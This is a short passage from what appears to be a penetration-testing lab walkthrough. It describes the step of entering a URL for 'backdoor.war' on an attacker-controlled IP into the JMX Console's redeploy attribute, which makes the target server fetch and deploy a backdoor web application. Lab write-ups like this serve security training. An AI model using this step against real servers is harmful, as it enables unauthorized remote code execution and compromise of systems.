 ![Step 8_1](img/html_adapter_to_root_8_1.png)

Head over to the JMX Console page and under the **redeploy** attribute, place the following URL as the parameter:

**URL:**  

```
http://192.166.140.2/backdoor.war
```

**Note:** Kindly make sure to substitute the correct IP address in the above URL.

![8_2](img/html_adapter_to_root_8_2.png)
